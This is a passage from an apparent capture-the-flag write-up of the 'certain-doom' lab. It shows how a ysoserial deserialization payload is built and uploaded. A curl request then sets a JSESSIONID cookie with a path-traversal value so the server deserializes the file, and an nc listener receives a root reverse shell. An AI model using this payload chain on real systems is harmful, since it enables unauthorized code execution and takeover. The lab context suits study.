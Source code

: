 > After installing `openjdk-11`, I wasn't getting any errors. But the payloads weren't being deserialized and so I wasn't getting a reverse shell. That's when `@sarperacvi` told me that he got it working by building `ysoserial` and using it that way.
> 
> I built it from source as well and it worked. I don't understand what the problem was exactly but it took a long time to figure it out.
{: .prompt-warning}

After building `ysoserial`, let's try creating the payload again:
```console
m3ga@kali:~$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 'bash /usr/local/tomcat/temp/uploads/payload.sh' > execute.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

Let's upload it and make a request to the server with our `JSESSIONID` pointing to where the file is stored at.

```
curl http://certain-doom.thm:8080/reports/upload -H 'Cookie:JSESSIONID=../../../../../../../../../../usr/local/tomcat/temp/uploads/execute' -F 'image=@execute.session'
```

> Using 10 `../` worked for me. Anything lower wasn't being executed.
{: .prompt-tip}

```console
m3ga@kali:~$ nc -lvnp 53
listening on [any] 53 ...
connect to [10.11.75.248] from (UNKNOWN) [10.10.150.44] 49702
id
uid=0(root) gid=0(root) groups=0(root)

ls -la
total 132
drwxr-xr-x. 1 root root    69 Aug  9  2023 .
drwxr-xr-x. 1 root root    20 Apr 29  2020 ..
-rw-r--r--. 1 root root    38 Aug  8  2023 .flag
...

cat .flag
THM{[REDACTED]}
...
```

Since we got `root` as our initial foothold, I was suspicious that this was a container and seeing the `.dockerenv` file in the root directory confirmed it for me.

## Flag 2

### Recon

After some enumeration, I found two entries inside the `/etc/hosts` file.
```console
root@2c5b93ea49de:~$ cat /etc/hosts
...
172.20.0.3	2c5b93ea49de
172.18.0.3	2c5b93ea49de
```
